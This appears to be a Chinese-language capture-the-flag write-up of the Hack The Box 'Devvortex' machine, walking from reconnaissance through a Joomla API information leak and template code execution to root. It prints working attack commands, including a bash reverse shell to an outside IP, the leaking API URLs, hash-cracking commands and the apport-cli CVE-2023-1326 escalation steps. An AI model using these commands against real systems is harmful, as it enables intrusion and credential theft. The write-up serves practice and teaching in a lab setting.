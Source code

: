 # 信息收集

![image-20231208223654398](images/1.png)

开放了22和80端口，访问80会跳转到devvortex.tab，先配置一下host

![image-20231208223808484](images/2.png)

用nmap对端口进一步探测，`-sV -sC -Pn -vv`

![image-20231208224815404](images/3.png)

![image-20231208230229495](images/4.png)

寻找子域名

![image-20231208225053206](images/5.png)

这里我用subDomainsBrute没跑出来，看wp用的是ffuf这个爆破工具，结合https://github.com/danielmiessler/SecLists这个仓库的字典，看起来还挺全

```
./ffuf -c -w ./seclists/Discovery/DNS/subdomains-top1million-5000.txt --fs 154 -t 100 -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb"
```

还是没跑出来，直接添加hosts吧，不知道为什么，我看别人也只添加了一个hosts就跑出来了，我的字典都有这个前缀，subdomian的默认字典也有这个，用gobuster也没有跑出来

接下来扫目录

```
./gobuster dir --url dev.devvortex.htb -w common.txt -t 25 
```

看到了administrator

![image-20231210111025949](images/6.png)

# Getshell

发现是joomla

![image-20231210111053292](images/7.png)

先利用joomlascan探测一波，版本为4.2.6

![image-20231210113401659](images/8.png)

搜索发现了一个未授权访问漏洞可以泄漏数据库账号密码

```
http://127.0.0.1/Joomla4.2.7/api/index.php/v1/config/application?public=true	# config配置
http://127.0.0.1/Joomla4.2.7/api/index.php/v1/users?public=true # 用户配置
```

![image-20231210111555772](images/9.png)

![image-20231210113512797](images/10.png)

也可以网上的脚本直接跑

![image-20231210113627317](images/11.png)

这里拿到了数据库密码，还用用户名，但是连不上3306，最后用数据库账号密码（密码复用）登陆到了后台

![image-20231210113816631](images/12.png)

看到有templates，在这种php到站后台编辑模板处都可以去尝试rce，error.php是可写的

![image-20231210114009211](images/13.png)

![image-20231210114056132](images/14.png)

成功执行代码

弹个shell回来，因为这里访问一次后会恢复原来的样子

```
bash -i >& /dev/tcp/10.10.16.28/2333 0>&1
```

![image-20231210115046572](images/15.png)

![image-20231210115106323](images/16.png)

发现有python3

![image-20231210115243104](images/17.png)

升级为交互式shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20231210115555124](images/18.png)

在/etc/passwd中看到了另外的用户

![image-20231210115637237](images/19.png)

# 横向到其他用户

这个用户和刚才通过漏洞看到了User一样

![image-20231210113627317](images/11.png)

User也有这个用户，说不定也有密码复用，可以去数据库里面看看网站中这个用户的密码

![image-20231210115946427](images/21.png)

加密了， 可以尝试能不能爆破，丢hash在线识别后直接用john爆破

![image-20231210120357380](images/22.png)

![image-20231210120226840](images/23.png)

用rockyou这个字典，爆破出来是`tequieromucho`

也可以用hashcat

```
hashcat -m 3200 -a 0 -d 1 hash.txt .\rockyou.txt
```

这里直接贴别人的图了

![image-20231210120330925](images/24.png)

尝试横向

![image-20231210120506132](images/25.png)

# 提权

有了密码后，因为开始信息收集的时候也发现开了ssh的，可以ssh直接登陆，也可以继续用shell

剩下一个flag需要root用户，想办法提权，suid无果

HTB的提权很有意思，一般不是常规的suid提权，这里sudo有suid权限

![image-20231210120711874](images/26.png)

来`sudo -l`看看，反正有这个用户的密码了

![image-20231210120752001](images/27.png)

这里有一个apport-cli有sudo权限

![image-20231210121209834](images/28.png)

找到了CVE-2023-1326

https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb

这里面有poc，可以进行权限提升

![image-20231210121345248](images/29.png)

先要查看/var/crash底下有什么crash文件，但是目前没有crash文件

首先配置`bash`以保存大型转储

```
ulimit -c unlimited
```

然后强制出现分段错误，以便将核心转储为大型崩溃文件

```
sleep 10 &

killall -SIGSEGV sleep
```

![image-20231210121929713](images/30.png)

然后在/var/crash中看到了crash文件，用apport-cli直接运行这个crash

```
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
```

运行完后会提升输入什么东西

![image-20231210122126583](images/31.png)

输入`!id`

![image-20231210122143262](images/32.png)

看到了已经是root权限了，同理看到了root下的flag

![image-20231210122225932](images/33.png)





参考链接：

https://github.com/g1vi/Hack-the-box-write-ups/blob/main/Open%20beta%20season%20III%20(Fall%202023)/Week%209.%20HTB%20-%20Devvortex.MD

[HTB-Devvortex - HackerPath (timeless613.github.io)](https://timeless613.github.io/kiwi/WriteUp/HTB-Devvortex/#flag-root)

[HTB-Devvortex笔记 | CN-SEC 中文网](https://cn-sec.com/archives/2241452.html#google_vignette)
